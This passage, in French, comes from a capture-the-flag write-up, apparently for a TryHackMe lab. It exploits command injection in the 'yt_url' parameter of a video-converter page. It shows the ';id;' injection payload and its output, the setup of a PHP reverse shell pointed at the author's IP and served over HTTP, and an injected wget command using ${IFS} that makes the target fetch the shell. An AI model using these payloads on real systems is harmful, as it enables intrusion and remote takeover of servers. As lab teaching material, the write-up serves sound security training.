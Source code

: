 ```js
                    $("#message").html("Oops! something went wrong");
                }
            } catch (error) {
                console.log(data);
                $("#message").html("Oops! something went wrong");
            }
        });
    });

});
```

On remarque que c'est le script qui gère la conversion de la vidéo.    
Son fonctionnent c'est de faire un POST sur paramètre de nom yt_url.
Dans le paramètre on met l'adresse de youtube en passant l'ID dans v.    

![page2](./Task1-02.png)

Dans le mode développeur de firefox F12, dans la console, on passe une commande pour voire si le script est vulnérable.   
Dans la console quand on passe la requête $.post\("/",\{ yt_url: ";id;"\}\) on a comme réponse dans Response JSON, le retour de la commande id qui est : uid=33\(www-data\) gid=33\(www-data\) groups=33\(www-data\)

Donc on peut exécuter des commandes sur la machine cible.  


```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php -nv
2021-08-28 10:11:53 URL:https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php [5491/5491] -> "php-reverse-shell.php" [1]

tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/127.0.0.1/10.9.228.66/g' php-reverse-shell.php

tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
``

On prépare notre reverse shell.    
On lance un serveur html pour que la machine cible récupère le reverse shell.   

![page3](./Task1-03.png)

Dans le mode développeur de firefox, dans la console on met la commande : $.post\(\"/\",\{ yt_url: \";wget$\{IFS\}http://10.9.228.66:8000/php-reverse-shell.php;\"}).    
```